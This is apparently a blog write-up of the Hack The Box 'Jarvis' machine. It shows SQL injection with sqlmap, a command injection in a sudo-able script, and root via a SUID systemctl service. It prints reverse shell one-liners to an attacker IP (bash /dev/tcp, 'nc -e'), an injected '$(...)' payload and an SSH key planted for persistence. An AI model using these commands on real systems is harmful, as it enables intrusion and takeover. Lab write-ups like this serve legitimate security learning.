 +++
title = "Jarvis"
date = 2019-11-09
[taxonomies]
tags = ["hackthebox"]
+++

1. Port 80 and 64999. Port 80 hosts a bootstrap website. Port 64999 shows I've been banned for 90 seconds page. I don't think that part of true as my scans were still running but we'll note this down for now.

2. `nikto` scans shows that there is a phpmyadmin being hosted on port 80 and the version can be found at: [http://jarvis/phpmyadmin/ChangeLog](http://jarvis/phpmyadmin/ChangeLog) - version 4.8.0 (2018 04 07)

	After reading couple of exploits for phpmyadmin 4.8.0, I decided to try to use Metasploit module and see if it will work. Unfortunately it didn't.

	![htb-jarvis-msfconsole.png](htb-jarvis-msfconsole.png)

3. Being stuck on this problem for couple of hours, all my scans show up without much useful information to work with. The only thing left I could think about are SQL injections which I did had a hunch about from reading the past phpmyadmin exploits.

	But where do we begin to perform SQL injections? Browsing the Jarvis website, there is a page that shows a list of room suites and the URL generates a `cod=5` parameter. I'm going to test to see if it's vulnerable to SQL injection.

	Using `burpsuite`, I saved a GET request to a file so I can use `sqlmap` to read it.

	```shell
	sqlmap -r singlereq -p cod --passwords
	```

	![htb-jarvis-sqlmap.png](htb-jarvis-sqlmap.png)

	Looks like I got a hit for the phpmyadmin login and password. I'll keep this aside and see if I could get a shell that we can upload files with.

	```shell
	sqlmap -r singlereq -p cod --os-shell
	```

	An os-shell is accessible and we're able to upload and execute a PHP reverse shell file for a `www-data` user shell.

4. Running the `linenum` and `linuxprivchecker` scripts showed there is a sudoers access to a python file at `/var/www/Admin-Utilities/simpler.py`

	After reviewing the python script, there is a ping function that blacklists certain characters. Doing some online research shows there is a way to execute commands with $, (, and ) characters.

	Before we do that, lets create a reverse shell script for execution.

	```shell
	echo "bash -i >& /dev/tcp/10.10.14.9/8080 0>&1" > /var/tmp/rs.sh
	```

5. Execute the simpler.py script:

	```shell
	sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
	```

	When the prompt shows up asking for an IP, enter this command:

	```shell
	$(bash /tmp/rs.sh)
	```

	![htb-jarvis-simpler.png](htb-jarvis-simpler.png)

	A reverse shell with `pepper` user access has now been established and able to obtain the user.txt flag.

### Privilege Escalation

1. Reading through my `linenum` and `linuxprivchecker` scripts, I noticed that the `systemctl` binary has an SUID flag set.

	```shell
	-rwsr-x--- 1 root pepper 174520 Feb 17 03:22 /bin/systemctl
	```

	According to [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/), SUID set can lead to privilege escalation. It wasn't as easy as I thought.

	I tried following the instructions and it will throw shell related errors such as:

	```shell
	The name org.freedesktop.PolicyKit1 was not provided by any .service files
	```

2. I haven't seen these type of errors before and googling didn't help. Asking for HTB users for a hint, I would have never thought of escalating my shell to something more stable. At first when I thought about this hint, I thought it meant that I should reverse shell again somewhere. Then I remembered that SSH was enabled on this box but how would I log in if I don't have the password for `pepper` user and can't execute `passwd` to change it? A light bulb went off and I figured since I am `pepper` technically, I can create ssh `authorized_keys` into the `pepper` home directory with my own public key and ssh using my private key.

	```shell
	mkdir .ssh

	wget http://10.10.14.9/id_rsa.pub ~/.ssh/authorized_keys
	```

	Then we SSH using my private key for access:

	```shell
	ssh -i ~/.ssh/id_rsa pepper@jarvis
	```

	Now we can begin with following GTFOBins `systemctl` instructions and it should now work.

3. Create the service file using `systemctl` with modified ExecStart value using `nc`:
	
	```shell
	TF=privesc.service
	echo '[Service]
	Type=oneshot
	ExecStart=/bin/sh -c "/bin/nc -e /bin/sh 10.10.14.9 4444"
	[Install]
	WantedBy=multi-user.target' > $TF
	```

4. Create a symbolic link using `systemctl`:

	```shell
	/bin/systemctl link /home/pepper/privesc.service
	```

5. Setup a `nc` session to receive the root reverse shell:

	```shell
	nc -nvlp 4444
	```

6. Enable the newly created service using `systemctl`:
	
	```shell
	/bin/systemctl enable --now /home/pepper/privesc.service
	```

	![htb-jarvis-systemctl.png](htb-jarvis-systemctl.png)

	![htb-jarvis-rooted.png](htb-jarvis-rooted.png)

`Protip`{: .info }

Always try to execute binaries as absolute paths and in different directories. Sometimes you'll get cases where files don't get executed where you saved the files.